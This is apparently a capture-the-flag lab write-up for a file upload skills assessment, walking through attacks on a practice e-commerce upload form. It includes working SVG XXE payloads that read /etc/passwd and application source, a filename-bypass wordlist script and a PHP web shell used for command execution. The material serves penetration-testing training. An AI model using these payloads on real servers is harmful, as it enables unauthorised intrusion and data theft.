 # Skills Assessment

#### You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

***



For this Skills Assessment we have a web application with some default content, and we have to test the upload screenshot feature to test if there is any vulnerability.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

The main focus of this assessment is this page. We can access it by clicking in **Contact Us**. To capture the essential requests we don't need to actually submit the data, just press the green and black button above.

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

The POST Request should look something like this. And as we can see from the Response, we don't have  an actual storage location of the image.

Since we got a **base64** encoded string from the Response, we can try if we can retrieve the upload.php script from the server, and see where the images are being saved.

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Just by modifying the filename with a **.svg** extension we can execute XML code on the backend. Fortunately the the application does not have any protection to this and as we can see from the output above we manage to get the /etc/passwd with this code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Since we confirmed the web application is vulnerable to XXE, we can use this to read the web application's source files:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Now all we have to do is decode the **base64** string and hope that we got the source code of the upload.php file.

We can use the following command to do it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We manage to read the **upload.php** script! The **$target\_dir** indicates where the images are being saved. Also notice that the **$fileName** gives us an important information, the dog.jpeg is renamed to **currentdate\_dog.jpeg** once gets uploaded to the server. This important in order to try to reach the image.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

And we manage to get the actual image URL. It should look something like this:

**`http://SERVER_IP:PORT/contact/hiddenpath/currentdate_filename.ext`**

\
Now lets try to bypass any image upload filtering.

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

We can use the same request used previously, we send it to the Intruder and made the following changes:

Add the selection to the filename

Keep the **ÿØÿà** - this is the ÿØÿà that will make the server read the content as a jpg file

Add the \<?php echo "shell test";?> to test the code execution

Create a word list with the following code:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do                      
    for ext in '.jpeg' '.jpg'; do
        echo "shell$char$ext.svg" >> wordlist.txt
        echo "shell$ext$char.svg" >> wordlist.txt
        echo "shell.svg$char$ext" >> wordlist.txt
        echo "shell.svg$ext$char" >> wordlist.txt
    done
done
```

Lastly, make sure to disable URL encoding and launch the attack.

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

With this Request format we should look to the ones with a lenght over 366. In this case we select the **shell.phar:.jpg**.



<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

And the PHP code was executed!

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Now, lets send the same Request to the Repeater and make an actual shell.&#x20;

Add the **shell.phar:.jpg** to the filename and `<?php system($_REQUEST['cmd']); ?>` after the **ÿØÿà** signature and send it!

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

We add the **?cmd=id** to the URL and we are able to successfully execute a command!

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Now we just have fun wandering around to look for the flag and eventually made it!

